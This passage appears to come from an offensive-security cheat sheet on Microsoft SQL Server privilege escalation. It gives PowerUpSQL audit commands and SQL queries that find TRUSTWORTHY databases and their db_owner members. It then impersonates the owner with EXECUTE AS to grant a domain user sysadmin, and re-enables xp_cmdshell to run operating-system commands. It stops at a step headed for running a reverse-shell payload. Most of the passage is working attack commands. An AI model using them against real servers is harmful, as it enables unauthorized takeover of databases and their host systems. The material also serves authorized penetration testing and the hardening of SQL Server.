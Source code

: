 Look for TRUSTWORTHY database using `PowerUpSQL`:

```powershell
# PowerUpSQL
Invoke-SQLAudit -Instance "SQLServer1\Instance1" -Verbose | Out-GridView
Invoke-SQLAuditPrivTrustworthy -Instance "SQLServer1\Instance1" -Verbose
```

Look for **TRUSTWORTHY** database (can be done with public role):

```sql
-- HeidiSQL
SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

Look for **db_owner** role (can be done with public role) on the found trustworthy database:

```sql
-- HeidiSQL
use <database> 
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM  RIGHT OUTER JOIN sys.database_principals AS DP1  ON DRM.role_principal_id = DP1.principal_id  LEFT OUTER JOIN sys.database_principals AS DP2  ON DRM.member_principal_id = DP2.principal_id  WHERE DP1.type = 'R' ORDER BY DP1.name;
```

Perform EXECUTE AS in `HeidiSQL`to become the db owner (with elevated privileges) and give a Domain User the sysadmin role: 

```sql
-- HeidiSQL
EXECUTE AS USER = 'dbowner' 
SELECT system_user 
EXEC sp_addsrvrolemember 'DOMAIN\USER','sysadmin'
```

### Sysadmin to OS Service Account

#### Sysadmin to OS Service Account - Command Execution with xp_cmdshell

- `HeidiSQL`:
	```sql
	-- HeidiSQL
	-- If xp_cmdshell is uninstalled:
	sp_addextendedproc 'xp_cmdshell','xplog70.dll' 

	-- If xp_cmdshell is disabled:
	EXEC sp_configure 'show advanced options',1 
	RECONFIGURE
	EXEC sp_configure 'xp_cmdshell',1 
	RECONFIGURE
	EXEC master..xp_cmdshell 'whoami'
	```

	Execute a payload via HeidiSQL to get a reverse shell:
	